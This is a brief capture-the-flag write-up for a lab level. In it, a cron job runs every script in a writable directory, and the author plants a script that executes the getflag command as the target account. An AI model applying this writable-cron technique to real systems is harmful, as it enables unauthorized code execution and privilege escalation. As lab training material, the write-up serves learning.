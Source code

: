 ###Level 03

####Introduction
In this example we are told to look at the directory /home/flag03 and that there is a crontab that runs every few minutes
That directory contains the file `writable.sh` which contains the code
```
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
Which runs every file in the writable.d directory. I assume this is the file being run by the cron job.

####Exploit
Since `home/flag/03/writable.d` is writable I create a simple bash script that will run the `getflag` command and pipe output to a file
so that I can confirm it ran
```
#bin/bash
/bin/getflag >> /tmp/proof
```

I waited a few minutes and sure enough `tmp/proof` contained `You have successfully executed getflag on a target account`
